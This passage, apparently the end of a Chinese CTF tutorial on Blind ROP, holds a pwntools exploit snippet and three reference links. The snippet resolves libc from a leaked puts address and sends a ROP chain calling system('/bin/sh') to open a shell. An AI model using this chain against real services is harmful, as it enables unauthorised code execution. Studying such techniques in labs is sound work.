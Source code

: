 ```python
puts_addr = u64(data.ljust(8, '\x00'))
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
payload = 'a' * length + p64(rdi_ret) + p64(binsh_addr) + p64(
    system_addr) + p64(stop_gadget)
sh.sendline(payload)
sh.interactive()
```

### 参考阅读

- http://ytliu.info/blog/2014/09/28/blind-return-oriented-programming-brop-attack-gong-ji-yuan-li/
- http://bobao.360.cn/learning/detail/3694.html
- http://o0xmuhe.me/2017/01/22/Have-fun-with-Blind-ROP/

